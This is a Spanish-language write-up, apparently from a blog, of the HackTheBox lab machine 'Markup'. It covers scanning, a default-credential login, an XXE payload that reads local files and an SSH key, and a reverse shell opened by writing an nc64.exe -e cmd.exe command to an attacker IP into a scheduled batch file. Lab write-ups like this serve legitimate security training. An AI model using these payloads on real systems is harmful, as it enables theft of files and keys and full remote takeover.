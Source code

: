 ```yaml
---
title: Markup
layout: page
permalink: /HTB_Markup
---
```


<h2 class="amarillo">Markup</h2>
<div id="imgs" style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/Markup/markup.webp" alt="under" oncontextmenu="return false;">
</div>


Encendemos la máquina y una vez verificados con ping lanzaremos un escaneo rápido y sigiloso con nmap para identificar los puertos abiertos:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.95.192 -oG allPorts
```
<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/Markup/nmap.png" alt="under" oncontextmenu="return false;">
</div>

Utilizando la utilidad de extractPorts como siempre copiaremos los puertos abiertos de la captura y haremos un escano exhaustivo para identificar la version y servicio que corren para estos puertos:
<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/Markup/extractPorts.png" alt="under" oncontextmenu="return false;">
</div>

Miramos los resultados del escaneo:
<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/Markup/nmap2.png" alt="under" oncontextmenu="return false;">
</div>


<h1 class="amarillo">Explotación</h1>

Vemos un servicio web, podemos probar a enumerarlo con whatweb para ver un poquito a que nos estamos enfrentando:
<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/Markup/whatweb.png" alt="under" oncontextmenu="return false;">
</div>

Vemos un apache y un ssl, recordar importante que ssl es un puerto para HTTPS entonces también podemos atentar contra este puerto con whatweb:
<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/Markup/whatweb2.png" alt="under" oncontextmenu="return false;">
</div>

Sin muchos resultados abrimos la web y nos encontramos un panel de login:
<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/Markup/web.png" alt="under" oncontextmenu="return false;">
</div>

Pudimos burlar este panel con admin:password como credenciales por defecto.
<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/Markup/web2.png" alt="under" oncontextmenu="return false;">
</div>

Vemos que la página tiene una parte curiosa y llama mucho la atención:
<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/Markup/xml.png" alt="under" oncontextmenu="return false;">
</div>

Probamos a colocar datos y interceptar la petición con Caido:
<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/Markup/caido.png" alt="under" oncontextmenu="return false;">
</div>


Y vemos que se está tramitando un estructura en XML, y como estamos frente a un Windows podemos tratar de listar contenido del hosts:
```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///c:/windows/system32/drivers/etc/hosts'>]>
<order>
<quantity>
3
</quantity>
<item>
&test;
</item>
<address>
17th Estate, CA
</address>
</order>
```
<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/Markup/caido2.png" alt="under" oncontextmenu="return false;">
</div>

Y efectivamente, por tanto tenemos un XXE XML EXternal Entity, podemos intentar otra cosa como ir listando el directorio del usuario y vemos que podemos acceder al directorio de daniel y a su carpeta .ssh:
<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/Markup/caido3.png" alt="under" oncontextmenu="return false;">
</div>

Una vez tenemos esta llave rsa podemos conectarnos por SSH:
<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/Markup/user.png" alt="under" oncontextmenu="return false;">
</div>

Y habremos completado la intrusión:

<h1 class="amarillo">Escalada</h1>

Al igual que las máquinas Linux con `sudo -l` en Windows podemos hacer `whoami /priv`
<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/Markup/escalada.png" alt="under" oncontextmenu="return false;">
</div>

Podemos acceder a directorios privilegiados y encontramos dentro de C:\ un directorio inusual llamado Log-Management
<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/Markup/escalada2.png" alt="under" oncontextmenu="return false;">
</div>

Vemos que podemos ejecutar job.bat como Administrator y usando icacls podemos confirmarlo
<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/Markup/escalada3.png" alt="under" oncontextmenu="return false;">
</div>

La idea será subir el ncat para windows y entablar una reverse shell abusando del binario.bat<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/Markup/escalada4.png" alt="under" oncontextmenu="return false;">
</div>

Estando en escucha por el puerto 443 ejecutamos `echo C:\Log-Management\nc64.exe -e cmd.exe 10.10.16.12 443 > C:\Log-Management\job.bat`
<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/Markup/metidos.png" alt="under" oncontextmenu="return false;">
</div>

Voila! obtenemos la shell como Administrator.
<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/Markup/pwn.png" alt="under" oncontextmenu="return false;">
</div>
